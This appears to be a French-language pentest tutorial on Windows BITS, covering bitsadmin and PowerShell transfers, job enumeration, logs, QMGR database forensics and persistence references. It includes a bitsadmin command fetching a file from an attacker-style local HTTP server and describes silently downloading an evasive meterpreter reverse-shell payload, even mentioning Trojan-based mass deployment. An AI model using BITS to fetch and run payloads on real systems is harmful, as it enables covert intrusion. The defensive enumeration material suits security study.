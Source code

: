 ### Introduction à BITS : 

BITS veux dire Background Intelligent Transfer Service est un service très utilisé pour télécharger des fichiers à partir ou vers des serveurs Web HTTP et partage de fichier SMB. BITS est suffisamment autonome pour réduire un maximum les couts pour que se soit le plus optimisé possible pour l'utilisateur ou le programmeur car oui BITS peux aussi etre utile en programmation, BITS est programmable en C/C++ et peut etre appellé dans du .NET tout cela grace à COM.
BITS possède une version CLI qui s'appelle BitsAdmin et des commandes incluses dans le powershell. BITS peut etre utilisé pour de l'administration avec des systèmes de Logs depuis des actions comme /transfer ou les protocoles SANP ( protocoles de notification ) exemple : `SetNotifyFlag`. En pentest, BITS est très utilisé pour du EOAP ( Exfiltration over Alternative Protocol).
Utilisation de bitsadmin et analyse du traffics :

```powershell
bitsadmin /transfer howtohack http://192.168.1.45:8000/ak.txt "C:\Users\hth\Documents\ak.txt"
```

- **DISPLAY**: nom de job
- **FILE**: nombre de fichier
- **BYTES**: tailles du fichier "c le hack"
- **PRIORITY**: correspond à l'ordre de téléchargement
- **STATE**: Transféré, état du job.

on peux aussi l'utiliser avec le modules du PowerShell : `BitsTransfer`
```powershell
Import-Module BitsTransfer
```

BITS supporte par défaut le transfère asynchrone mais vous pouvez y précisez via l'argument `-Asychronous`, pour la validation du fichier il faut utiliser `Complete-BitsTransfer`.
Téléchargement d'un reverse shell meterpreter silencieusement : 

![image](https://user-images.githubusercontent.com/75935486/152225631-6de1bd82-5dc8-4ac3-b861-a73634d4fe45.png)

on lance le server HTTP et on télécharge la charge utile evasive via BITS en asynchrone. Dans un cadre de contamination en masse on peux rendre le téléchargement automatique en C ou C++ dans une tierce parti de Trojan, mais dans le cadre éducatif on reste dans des choses simple.


#### BITSAdmin enumeration : 

```powershell
# listé les jobs
bitsadmin /list
# avoir plus d'info sur un job
bitsadmin /info 482FCAF0-74BF-469B-8929-5CCD028C9499 /verbose
# géré les jobs actuels
bitsadmin /monitor
# un seul job à géré
bitsadmin /monitor 482FCAF0-74BF-469B-8929-5CCD028C9499
# info complète (Notify, Proxy, GUID...) sur tout les jobs actif :
bitsadmin /info
```

Logs BITS : `C:\Windows\System32\winevt\Logs\Microsoft-Windows-Bits-Client%4Operational`

![image](https://user-images.githubusercontent.com/75935486/152225800-497abaf1-1545-48b0-903e-9d87c51242f6.png)


#### BITS Enumeration depuis des requetes SC et depuis la db QMGR & ESE : 

QMGR signifie Querie Manager, il enregistre chaque activité de chaque BITS Job dans une base de données mais c'est chiffré, il faut utiliser hex editor ou autre editeur de base16 pour ésperer dump quelque chose.
ici ce qui nous interesse c'est QMGR.db car c'est que sont loggé les infos des BITS Job

![image](https://user-images.githubusercontent.com/75935486/152225890-df0b4a93-7476-4513-bd75-b470dc0752a3.png)

```json
> python BitsParser.py -i qmgr.db
Processing file qmgr.db
{
    "JobType": "download",
    "JobPriority": "normal",
    "JobState": "suspended",
    "JobId": "b733e5e1-12ad-463e-a125-ade26cc1fab6",
    "JobName": "SpeechModelDownloadJob",
    "OwnerSID": "S-1-5-20",
    "Owner": "NT AUTHORITY\\NETWORK SERVICE",
    "CreationTime": "2021-01-25T11:52:05Z",
    "ModifiedTime": "2021-01-25T12:45:21Z"
}
```

#### Pesistence avec BITS : 


Compromissions de Windows BITS:
- https://www.secureworks.com/blog/malware-lingers-with-bits

développement C++/C/.NET avec intégration de BITS : 
- https://docs.microsoft.com/en-us/windows/win32/bits/using-bits
